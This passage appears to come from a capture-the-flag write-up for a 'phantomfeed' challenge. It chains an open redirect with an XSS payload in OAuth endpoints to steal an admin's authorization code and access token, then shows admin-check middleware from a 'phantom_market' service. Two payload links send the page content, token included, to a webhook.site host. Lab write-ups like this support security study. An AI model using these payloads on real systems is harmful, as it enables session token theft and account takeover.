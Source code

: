 ### Exploit

So combining everything that we know, first we can leak the authorization token via the open redirect that we found, so we'll set the following link

```
@127.0.0.1:3000/phantomfeed/oauth2/code?client_id=phantom-market&redirect_url=<your_webhook>?<script>window.location.href=`https://webhook.site/<your_webhook>?token=${btoa(document.body.innerHTML)}`</script>
```
as the market_link in the /feed endpoint which will make the bot start an oauth pipeline, and we'll get the authorization code for the admin user in our webhook.

Now we have the authorization_code,we can send the request to the ``/oauth2/token`` endpoint, remember the client_id and redirect_url that we give in both endpoints ``/oauth2/code`` and ``/oauth2/token`` should be the same as it is verified in the backend with the help of the authorization_code. So we give the following link as the market link in the ``/feed`` endpoint.

```
@127.0.0.1:3000/phantomfeed/oauth2/token?client_id=phantom-market&redirect_url=<your_webhook>?<script>window.location.href=`<your_webhook>?token=${btoa(document.body.innerHTML)}`</script>&authorization_code=<authorization_code>
```

Since our client_id and redirect_url are the same in both the requests, the endpoint will return the page with our XSS payload which will take the entire page and send it to our webhook, now this would also have the access_token for the admin that we need.


### phantom_market 

Now we have the admin's access token we can login as admin.

```py
# routes.py - phantom_market
@web.before_request
def before_request():
  auth_header = request.headers.get("Authorization")
  if not auth_header or "Bearer" not in auth_header:
    return response("Access token does not exist"), 400
  
  access_token = auth_header[7:]
  access_token = verify_access_token(access_token)

  if not access_token:
    return response("Access token is invalid"), 400
  
  request.user_data = access_token


def admin_middleware(func):
  def check_admin(*args, **kwargs):
    if request.user_data["user_type"] != "administrator":
      return response("Restricted to administrators"), 400

    return func(*args, **kwargs)

  check_admin.__name__ = func.__name__
  return check_admin
```
